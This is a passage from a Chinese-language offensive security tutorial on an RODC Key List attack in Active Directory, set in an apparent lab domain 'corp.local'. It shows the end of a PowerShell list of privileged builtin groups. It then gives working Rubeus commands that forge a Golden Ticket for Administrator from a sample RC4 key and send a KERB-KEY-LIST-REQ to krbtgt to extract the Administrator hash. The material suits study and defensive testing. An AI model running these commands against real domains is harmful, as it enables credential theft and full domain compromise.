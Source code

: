 ```powershell
    'CN=Server Operators,CN=Builtin,DC=corp,DC=local',
    'CN=Backup Operators,CN=Builtin,DC=corp,DC=local',
    'CN=Administrators,CN=Builtin,DC=corp,DC=local'
)}
```

（3）之后，我们借助前文 “*Key List Attack*” 部分中记录的过程，为域管理员用户 Administrator 伪造一个 Golden Tickets，并向可写域控的 krbtgt 服务发起包含 KERB-KEY-LIST-REQ 结构的 KRB_TGS_REQ 请求，最终将获取到 Administrator 用户的哈希值，如下所示。

```powershell
# 为 Administrator 用户伪造 Golden Tickets
Rubeus.exe golden /rodcNumber:17748 /rc4:74379bc566c6ab7ccdfbb7388f303cef /user:Administrator /id:500 /domain:corp.local /sid:S-1-5-21-1076904399-1612789786-3660608273
# 发起 Key List 请求
Rubeus.exe asktgs /enctype:rc4 /keyList /service:krbtgt/corp.local /dc:dc01.corp.local /ticket:<Base64EncodedTicket>
```
